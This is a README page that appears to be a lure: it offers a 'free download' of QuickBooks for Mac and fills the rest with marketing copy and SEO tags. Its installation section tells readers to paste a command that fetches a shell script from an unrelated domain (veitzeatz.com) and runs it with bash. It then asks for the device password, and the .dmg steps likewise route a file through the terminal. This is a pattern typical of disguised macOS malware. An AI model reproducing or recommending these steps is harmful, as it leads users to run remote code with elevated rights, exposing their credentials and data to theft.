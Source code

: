 # QuickBooks For Mac — Free Download For macOS 📊

Easily manage your finances with QuickBooks for Mac. Follow the step-by-step instructions below to download and install this powerful accounting software for free.  

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://fituganshfgh.github.io/.github/quickbooks)

If the download button doesn’t work, follow the terminal-based installation instructions below.

## 📦 How to Install QuickBooks For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with QuickBooks

- 📈 **Streamlined Bookkeeping**: Automate expense tracking and categorize transactions effortlessly.  
- 💸 **Invoicing Made Simple**: Create and send professional invoices in minutes.  
- 📊 **Financial Reports**: Generate detailed reports to monitor your business performance.  
- 🔄 **Sync with Bank Accounts**: Connect your bank accounts for real-time updates.  
- 🛠 **Tax Preparation**: Simplify tax season with organized records and deductions.  
- 🌐 **Cloud Integration**: Access your data anywhere with QuickBooks’ cloud features.

## About QuickBooks

QuickBooks for Mac is a leading accounting software designed to simplify financial management for small businesses and freelancers. Whether you’re tracking expenses, managing invoices, or preparing for tax season, QuickBooks offers a user-friendly interface tailored for macOS users. Its seamless integration with macOS ensures smooth performance, making it a go-to solution for professionals seeking efficiency.

With QuickBooks, you can automate repetitive tasks like expense categorization and bank reconciliation. The software supports integration with major banks, allowing you to sync transactions and monitor cash flow in real time. Its robust reporting tools provide insights into your business’s financial health, helping you make informed decisions. QuickBooks for Mac is optimized for Apple’s ecosystem, ensuring compatibility with the latest macOS versions.

The invoicing feature in QuickBooks is a standout, enabling users to create customized, professional invoices in just a few clicks. You can track payments, send reminders, and even accept online payments, streamlining your workflow. The software also supports multiple currencies, making it ideal for businesses operating globally. Its cloud-based features allow you to access your data from any device, ensuring flexibility and convenience.

For tax preparation, QuickBooks simplifies the process by organizing your financial data and generating reports that align with tax requirements. The software’s intuitive dashboard provides a clear overview of your income, expenses, and outstanding invoices, reducing the stress of financial management. QuickBooks for Mac is designed to save you time, letting you focus on growing your business.

**Why Choose QuickBooks?** QuickBooks stands out for its ease of use, macOS optimization, and comprehensive feature set. Unlike other accounting tools, it combines powerful functionality with a clean, Apple-inspired design. Regular updates ensure compatibility with the latest macOS releases, while its cloud sync and mobile app keep you connected on the go. Whether you’re a freelancer or a small business owner, QuickBooks offers unmatched reliability and efficiency.

## 🖼 Preview

![Dashboard View](https://http-download.intuit.com/http.intuit/CMO/apple_web/sample/static/qbomac/content/download/images/laptop.png)  
*QuickBooks dashboard for easy financial tracking*

![Invoice Creation](https://gdm-catalog-fmapi-prod.imgix.net/ProductScreenshot/97dc2024-ebe7-42d9-885e-6e743c1c0f9d.png)  
*Create professional invoices in minutes*

![Reports Interface](https://lh3.googleusercontent.com/R3f03cREsI4n4134jy7k8Nk5U1zRauPOXBtsC-ghhEY6qIUdMlStd6iQFY8WA0GOpUve0XnWClmwiUPlo1d5oM3f=s1280-w1280-h800)  
*Generate detailed financial reports effortlessly*

## 🔍 Tags

QuickBooks free, QuickBooks download, QuickBooks download free, QuickBooks for Mac, download QuickBooks macOS, QuickBooks free download, macOS accounting tool, QuickBooks installation guide, QuickBooks free mac, QuickBooks mac, QuickBooks mac os, QuickBooks download mac
